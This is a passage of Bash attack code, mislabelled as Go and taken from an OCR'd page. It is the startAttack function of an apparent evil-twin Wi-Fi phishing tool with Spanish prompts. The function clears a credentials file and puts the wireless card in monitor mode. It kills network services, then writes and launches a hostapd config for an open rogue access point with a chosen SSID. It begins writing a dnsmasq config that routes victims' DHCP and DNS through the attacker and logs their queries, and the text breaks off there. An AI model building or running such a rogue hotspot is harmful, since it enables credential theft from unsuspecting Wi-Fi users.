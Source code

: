 ```go
function startAttack(){
	clear; if [[ -e credenciales.txt ]]; then
		rm -rf credenciales.txt
	fi

	echo -e "\n${yellowColour}[*]${endColour} ${purpleColour}Listando interfaces de red disponibles...${endColour}"; sleep 1

	# Si la interfaz posee otro nombre, cambiarlo en este punto (consideramos que se llama wlan0 por defecto)
	airmon-ng start wlan0 > /dev/null 2>&1; interface=$(ifconfig -a | cut -d ' ' -f 1 | xargs | tr ' ' '\n' | tr -d ':' > iface)
	counter=1; for interface in $(cat iface); do
		echo -e "\t\n${blueColour}$counter.${endColour}${yellowColour} $interface${endColour}"; sleep 0.26
		let counter++
	done; tput cnorm
	checker=0; while [ $checker -ne 1 ]; do
		echo -ne "\n${yellowColour}[*]${endColour}${blueColour} Nombre de la interfaz (Ej: wlan0mon): ${endColour}" && read choosed_interface

		for interface in $(cat iface); do
			if [ "$choosed_interface" == "$interface" ]; then
				checker=1
			fi
		done; if [ $checker -eq 0 ]; then echo -e "\n${redColour}[!]${endColour}${yellowColour} La interfaz proporcionada no existe${endColour}"; fi
	done

	rm iface 2>/dev/null
	echo -ne "\n${yellowColour}[*]${endColour}${grayColour} Nombre del punto de acceso a utilizar (Ej: wifiGratis):${endColour} " && read -r use_ssid
	echo -ne "${yellowColour}[*]${endColour}${grayColour} Canal a utilizar (1-12):${endColour} " && read use_channel; tput civis
	echo -e "\n${redColour}[!] Matando todas las conexiones...${endColour}\n"
	sleep 2
	killall network-manager hostapd dnsmasq wpa_supplicant dhcpd > /dev/null 2>&1
	sleep 5

	echo -e "interface=$choosed_interface\n" > hostapd.conf
	echo -e "driver=nl80211\n" >> hostapd.conf
	echo -e "ssid=$use_ssid\n" >> hostapd.conf
	echo -e "hw_mode=g\n" >> hostapd.conf
	echo -e "channel=$use_channel\n" >> hostapd.conf
	echo -e "macaddr_acl=0\n" >> hostapd.conf
	echo -e "auth_algs=1\n" >> hostapd.conf
	echo -e "ignore_broadcast_ssid=0\n" >> hostapd.conf

	echo -e "${yellowColour}[*]${endColour}${grayColour} Configurando interfaz $choosed_interface${endColour}\n"
	sleep 2
	echo -e "${yellowColour}[*]${endColour}${grayColour} Iniciando hostapd...${endColour}"
	hostapd hostapd.conf > /dev/null 2>&1 &
	sleep 6

	echo -e "\n${yellowColour}[*]${endColour}${grayColour} Configurando dnsmasq...${endColour}"
	echo -e "interface=$choosed_interface\n" > dnsmasq.conf
	echo -e "dhcp-range=192.168.1.2,192.168.1.30,255.255.255.0,12h\n" >> dnsmasq.conf
	echo -e "dhcp-option=3,192.168.1.1\n" >> dnsmasq.conf
	echo -e "dhcp-option=6,192.168.1.1\n" >> dnsmasq.conf
	echo -e "server=8.8.8.8\n" >> dnsmasq.conf
	echo -e "log-queries\n" >> dnsmasq.conf
	echo -e "log-dhcp\n" >> dnsmasq.conf
```
